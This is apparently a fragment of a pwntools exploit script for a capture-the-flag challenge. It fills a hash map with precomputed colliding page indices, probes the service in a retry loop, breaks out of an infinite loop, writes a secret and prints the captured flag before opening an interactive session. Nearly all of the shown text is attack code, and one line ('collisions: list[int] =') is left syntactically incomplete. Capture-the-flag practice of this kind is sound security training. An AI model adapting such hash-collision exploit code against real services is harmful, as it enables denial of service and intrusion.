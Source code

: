 ```python
        stringsMenu.jump(2)
        time.sleep(1)


    stringsMenu.edit_generator(3)
    stringsMenu.jump(6) # break out of infinite loop

    stringsMenu.ret()
    pageMenu.ret()

    time.sleep(1)
    
    flag = mainMenu.check_page(last_page).decode()
    log.success(flag)
    io.interactive()

'''
Our main and globals
'''
target_page_idx = "3876"  # I know this index has many collisions
collisions: list[int] = # read from collisions.json

map_size = math.floor(8192 * 0.9)  # Will be aligned to 8192 if you give more a larger power of 2 will be created
pages = map_size - 10 # Number of pages to create (-10 to be safe)

secret="i swear it's possible!"
last_page = collisions[:pages][-1]
last_page_elem_count = 50000

io.sendlineafter(b"> ", bytes(f"{map_size}", 'utf-8')) # size of memory

while True: # Try until it hits
    for p in range(0, 501, 100):
        
        # Build the map from scratch (so we are sure the last is indeed last)
        build()
        rem = 1000 # We remove at most 1000 elements which will not trigger rehashing

        # run the attack
        fuck_yea = probe(p, rem)
        if fuck_yea:
            io.clean()
            write_secret(last_page, secret[1:])

        io.clean()
        io.sendline(b"") # Recalibrate

        # clean all pages to start a fresh map
        log.info("Cleaning up")
        for n in collisions[:pages]:
            mainMenu.unload_page(n)
```
